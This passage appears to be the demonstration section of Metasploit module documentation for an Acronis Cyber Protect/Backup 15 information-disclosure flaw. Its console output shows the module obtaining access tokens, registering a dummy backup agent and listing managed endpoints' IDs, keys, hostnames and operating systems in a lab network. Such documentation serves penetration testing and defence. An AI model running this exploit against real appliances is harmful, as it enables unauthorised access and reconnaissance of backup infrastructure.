 ### Acronis Cyber Backup 15 build 27009 VMware appliance
```msf
msf6 auxiliary(gather/acronis_cyber_protect_machine_info_disclosure) > run
[*] Running module against 192.168.201.6

[*] Running automatic check ("set AutoCheck false" to disable)
[*] Retrieve the first access token.
[*] Register a dummy backup agent.
[*] Dummy backup agent registration is successful.
[*] Retrieve the second access token.
[+] The target appears to be vulnerable. Acronis Cyber Protect/Backup 15.0.27009
[*] Retrieve all managed endpoint configuration details registered at the Acronis Cyber Protect/Backup appliance.
[*] List the managed endpoints registered at the Acronis Cyber Protect/Backup appliance.
[*] ----------------------------------------
[+] hostId: D287E868-EDBB-4FE9-85A9-F928AA10EE5D
[+] parentId: 00000000-0000-0000-0000-000000000000
[+] key: phm.EA9A6E26-38B5-4727-9957-FD7CDD7BF2CC@D287E868-EDBB-4FE9-85A9-F928AA10EE5D.disks
[*] type: machine
[*] hostname: AcronisAppliance-FCD94
[*] IP: 192.168.201.6
[*] OS: Linux: CentOS Linux release 7.6.1810 (Core)
[*] ARCH: linux
[*] ONLINE: true
[*] ----------------------------------------
[+] hostId: C0FBDC6F-A5FE-4710-ADE8-99B3F8A7CE1E
[+] parentId: 00000000-0000-0000-0000-000000000000
[+] key: phm.1100195A-112E-4904-A933-264C2D12A4A5@C0FBDC6F-A5FE-4710-ADE8-99B3F8A7CE1E.disks
[*] type: machine
[*] hostname: victim.evil.corp
[*] IP: 192.168.201.2
[*] OS: Microsoft Windows Server 2022 Standard
[*] ARCH: windows
[*] ONLINE: false
[*] Auxiliary module execution completed
```

## Limitations
No limitations.
